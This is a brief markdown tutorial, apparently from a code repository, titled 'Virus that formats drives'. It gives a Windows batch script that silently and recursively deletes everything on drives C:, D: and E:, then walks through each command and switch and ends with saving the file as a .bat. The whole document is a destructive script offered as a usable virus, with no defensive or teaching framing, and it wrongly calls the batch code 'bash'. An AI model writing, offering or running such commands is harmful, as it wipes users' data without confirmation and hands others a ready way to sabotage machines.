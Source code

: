 ### VIRUS THAT FORMATS DRIVES.

**STEPS**
- Open notepad and write the following bash scripts:

```
@echo off   
rd/s/q D:   
rd/s/q C:   
rd/s/q E: 
```


Here, <br>


> echo means, it is used to display amy message or string, just like priting the message in the screen. By defauly it is in 'on' mode, but when we turn off, using '@echo off', 
then it prevents every message and commands to view on the screen, including itself. 
<br>

> rd means, 'remove directory' , which means to remove the directory or the folder from the system.
<br>

> /s means, specified directories or subdirectories, and deletes the directories including the files which is inside it.
<br>

> /q means, quiet mode, and it doesn't prompt any notification or any confirmation when deleting any directory.
<br>

> C, D, E are the name of drives/folder/directories, which needs to be formatted completely.
<br>
- Save these command of notepad as anything.bat, name can be anything, but the saved extension should be '.bat'.
